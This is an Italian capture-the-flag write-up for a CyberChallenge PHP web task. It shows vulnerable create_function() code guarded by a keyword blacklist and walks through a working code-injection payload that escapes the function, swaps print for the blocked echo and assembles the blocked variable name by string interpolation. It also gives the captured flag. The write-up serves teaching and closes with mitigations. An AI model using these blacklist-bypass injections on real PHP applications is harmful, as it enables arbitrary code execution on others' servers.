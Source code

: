 # Writeup: WS_1.02 - PHPisLovePHPisLife

## Overview
- **Categoria:** Web  
- **Autore:** bonaff  
- **Difficoltà:** 496  
- **Stato:** Down (last checked: 19 hours ago)  
- **URL:** [http://phpislove.challs.cyberchallenge.it/](http://phpislove.challs.cyberchallenge.it/)

## Descrizione 📝
La sfida è incentrata sull’analisi di un codice PHP che utilizza la funzione **`create_function()`**, deprecata in PHP 7.2 e rimossa in PHP 8.0. Questa funzione, internamente, fa uso di `eval()`, rendendo possibile eseguire codice arbitrario se non vengono implementati adeguati controlli di sicurezza. Il codice fornito dal challenge implementa una blacklist di funzioni, variabili e caratteri, ma presenta comunque una falla sfruttabile.

### Codice Sorgente
```php
<?php 
if(isset($_POST['code'])) {
    $code = $_POST['code'];
    // I <3 blacklists
    $characters = ['\`', '\[', '\*', '\.', '\\\\', '\='];
    $classes = get_declared_classes();
    $functions = get_defined_functions()['internal'];
    $strings = ['eval', 'include', 'require', 'function', 'flag', 'echo'];
    $variables =  ['_GET', '_POST', '_COOKIE', '_REQUEST', '_SERVER', '_FILES', '_ENV', 'HTTP_ENV_VARS', '_SESSION', 'GLOBALS'];

    $blacklist = array_merge($characters, $classes, $functions, $variables, $strings);

    foreach ($blacklist as $blacklisted) {
        if (preg_match('/' . $blacklisted . '/im', $code)) {
            $output = 'No hacks pls';
        }
    }

    if(!isset($output)){
        $my_function = create_function('', $code);
        // $output = $my_function(); // I don't trust you
        $output = 'This function is disabled.';
    }
    echo $output;
}
?>
```

### Analisi della Blacklist
- **Caratteri e Pattern**: Sono bloccati simboli come `` ` ``, `` [ ``, `` * ``, `` . ``, `` \ ``, `` = ``.
- **Classi e Funzioni Interne**: Viene bloccata la maggior parte delle funzioni di base e delle classi interne di PHP.
- **Variabili Globali**: Vengono bloccate variabili come `$_GET`, `$_POST`, `$_SERVER`, ecc.
- **Stringhe Sensibili**: Parole chiave come `eval`, `include`, `require`, `function`, `flag`, `echo` sono anch’esse filtrate.

Nonostante questi filtri, la vulnerabilità sta nell’uso di `create_function()` che permette, con un payload opportunamente formulato, di iniettare codice eseguibile.

## Soluzione 🎯

### 1. Bypass dei Filtri
- **Evitare `flag`**: Non possiamo scrivere direttamente la parola `flag`.
- **Evitare `echo`**: Non possiamo utilizzare la funzione `echo`.
- **Evitare `eval`**: È anch’essa blacklistata.

Tuttavia, possiamo usare una strategia per costruire dinamicamente la variabile `$flag` senza digitare la stringa `flag` in modo esplicito. Inoltre, possiamo utilizzare la funzione `print()` al posto di `echo`.

### 2. Primo Test: Stampa Personalizzata
Inizialmente, si è provato un semplice payload di test:
```
}print("Test");// 
```
Il codice iniettato si chiude con `}`, poi esegue `print("Test");` e infine commenta la chiusura della funzione creata da `create_function()`. Il risultato:
```
TestThis function is disabled.
```
Per evitare la stampa di `"This function is disabled."`, è sufficiente aggiungere `die();` subito dopo la stampa:
```
}print("Test");die();// 
```
Risultato:
```
Test
```

### 3. Ottenere la Flag
La variabile `$flag` è probabilmente definita nello scope del codice, ma il termine `flag` è blacklistato. Possiamo costruire dinamicamente il nome della variabile:
```php
${"fl${''}ag"}
```
In questo modo, `fl${''}ag` si risolve in `flag` senza scrivere direttamente `flag`.

Il payload finale è:
```
}print(${"fl${''}ag"});die();// 
```
- **`}`**: Chiude la funzione di `create_function`.
- **`print(${"fl${''}ag"});`**: Stampa il contenuto della variabile `$flag`.
- **`die();`**: Termina l’esecuzione, evitando il messaggio “This function is disabled.”.
- **`//`**: Commenta la fine della riga.

### 4. Ottenimento della Flag
Inviando il payload al parametro `code`, si ottiene la risposta:

## Flag 🏁
```
CCIT{Wh4t_Ar3_You_Do1ng_ou7_of_My_Sandb0x}
```

## Lezioni Apprese 📚
- **Deprecazione di `create_function()`:** L’uso di questa funzione, che sfrutta `eval()`, può portare a gravi vulnerabilità di code injection.
- **Evitare Blacklist:** Una blacklist può essere facilmente aggirata con trucchi di string interpolation e manipolazione di variabili.
- **Stampa senza `echo`:** Se `echo` è blacklistato, si può usare `print()` o altre funzioni per mostrare dati.
- **Mitigazioni:** Utilizzare alternative moderne come le **closure** o le **arrow function** in PHP per evitare l’uso di `eval()`.

## Tools Utilizzati 🛠️
- **Browser Web / cURL**: Per inviare il payload al parametro `code`.
- **Editor di Testo**: Per analizzare il codice sorgente e creare il payload.

---

*Writeup by Luca Crippa - Last Updated: 2024*
